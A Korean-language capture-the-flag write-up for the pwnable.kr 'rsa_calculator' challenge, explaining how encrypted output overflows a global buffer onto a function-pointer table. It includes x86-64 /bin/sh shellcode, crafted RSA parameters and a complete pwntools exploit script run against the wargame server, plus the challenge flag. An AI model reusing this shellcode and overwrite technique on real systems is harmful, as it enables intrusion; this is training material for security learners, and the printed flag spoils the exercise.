




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

파일 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec rsa_calculator
[*] '/root/rsa_calculator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

- Buggy RSA Calculator -라는 문자열이 출력 후 64byte의 func객체를 초기화과정을 수행한다.

||setkey|RSA_encrypt|RSA_decrypt|help|myexit|"pwnable."|"krisbest"|_system|
|:--:|:--:|:--:|:--:|:--:|:--:|:--:|:--:|:--:|
|size (byte)|8|8|8|8|8|8|8|8|

먼저 set key pair를 해야하는데 적당히 작은 수를 이용하여 p, q, e, d값을 구해서 넣어보자.

```py
from gmpy2 import invert
from Cryptodome.Util.number import getPrime

p   = getPrime(8)
q   = getPrime(8)
N   = p*q
phi = (p-1)*(q-1)
e   = 65537
d   = invert(e, phi)
print(p, q, e, d) # 223 163 65537 19673
```

p와 q는 int16이기 때문에 32767(0x7FFF)이하의 값을 입력해야 한다.

```sh
-SET RSA KEY-
p : 32768
q : 32768
p, q, set to -32768, -32768
```

필요 값들을 모두 입력하면 key set ok가 출력된 후 pubkey(0x6020c0)의 값과 prikey(0x602960)의 값을 출력한다.

```sh
key set ok
pubkey(e,n) : (65537(00010001), 36349(00008dfd))
prikey(d,n) : (19673(00004cd9), 36349(00008dfd))
```

이후 encrypt를 선택하면 데이터를 입력하라고 하고, fread함수를 통해 1글자씩 받아들인다.



fread를 통해 스택에 입력 받은 데이터를 g_pbuf(0x602560)에 다시 복사한다.



그리고 암호화를 진행하는데, g_ebuf(0x6020e0)에 저장된다. 하지만 func객체는 0x602500에 위치이고 차이는 1,056byte이다.

암호화가 진행되면서 데이터 길이가 커지기(0x61 => 0x5245)때문에 func객체를 오버라이트할 수 있다.



NX bit가 disabled이기 때문에 shell code를 넣자. exploit 절차는 다음과 같다.

    1. 데이터를 입력하는 곳(g_pbuf = 0x602560)에 shell code 삽입
        \x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
    2. 암호화된 데이터 길이가 1,060byte일때, setkey함수를 덮을 수 있기 때문에 (1,060/4) - len(shellcode) - 1 = 241byte의 dummy가 필요
        'A' * 241
    3. 마지막 payload byte의 암호화된 값이 0x602560(= 6,301,024)이 되어야 하는 byte를 구함
        3.1. m^e mod N = 6,301,024 (m^e를 N으로 나누었을 때의 나머지)
        3.2. 몫 * N + 6,301,024 = m^e
        3.3. m을 'A'인 65로 가정하고, e를 4로 가정하였을 때, 몫 * N = 17,850,625(65^4) - 6,301,024 = 11,549,601
        3.4. 몫을 1이라 가정하였을 때, N = 27*7*53*1153
        3.5. 소수에 대한 검증이 없으므로 p = 27*7*53 = 10,017, q = 1,153
        3.6. d = N으로 하였을 때, wrong parameter안뜨는 점을 이용
    4. set key pair -> 인자 전달 -> encrypt -> payload 전달 -> set key pair -> cat flag
> [인수 분해](http://www.factordb.com/index.php?query=11549601)

FLAG를 획득하자.

```py
from pwn import *

p   = 10017
q   = 1153
e   = 4
d   = p*q
shell_code = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
payload = shell_code + b'A' * 242

r = remote('pwnable.kr', 9012)
r.recvuntil('> ')
r.sendline('1')

r.recvuntil('p : ')
r.sendline(str(p))
r.recvuntil('q : ')
r.sendline(str(q))
r.recvuntil('e : ')
r.sendline(str(e))
r.recvuntil('d : ')
r.sendline(str(d))

r.recvuntil('> ')
r.sendline('2')
r.recvuntil("how long is your data?(max=1024) : ")
r.sendline("265")

r.sendline(payload)

r.recvuntil('> ')
r.sendline('1')

r.sendline('cat flag')
print(r.recvline().decode())
```


# **FLAG**

**what a stupid buggy rsa calculator! :(**